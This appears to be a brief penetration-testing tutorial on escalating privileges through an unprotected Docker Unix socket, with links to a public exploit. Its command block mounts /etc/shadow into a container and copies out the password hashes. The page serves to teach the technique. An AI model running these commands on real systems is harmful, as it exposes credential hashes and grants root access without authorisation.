# Unix Socket Exploitation

A Unix socket is another component in \*nix systems that you can leverage to escalate your privileges.To safely use a Unix socket, the appropriate security measures/permissions must be implemented beforehand. As you can imagine, this is not always the case.

#### The easiest to follow example on how to leverage an insufficiently secured Unix socket is Docker. By design, the docker daemon binds to a Unix socket instead of a TCP port. By default, that Unix socket is owned by the user root; additionally, the docker daemon always runs as the root user.

Suppose you landed on a machine and the current user is an unprivileged user, that happens to have access to the docker command (he is part of docker group). Also, suppose that the docker Unix socket is not protected by implementing the appropriate permissions.



Let’s see how we could escalate our privileges in that machine. Specifically, let try to access /etc/shadow.

```
docker run -v /etc/shadow:/docker/hashedpasswords -d postgres
docker exec -ti {CONTAINER_ID} bash
root@XXXXXXXXXXXX:/# cat /docker/hashedpasswords > /docker/test.txt
root@XXXXXXXXXXXX:/# chmod 777 /docker/test.txt
root@XXXXXXXXXXXX:/# cat /docker/test.txt
```

![](<../../../../.gitbook/assets/image (22).png>)

Two more interesting examples on leveraging Unix sockets for privilege escalation are the following:\
\
[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)\
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)\


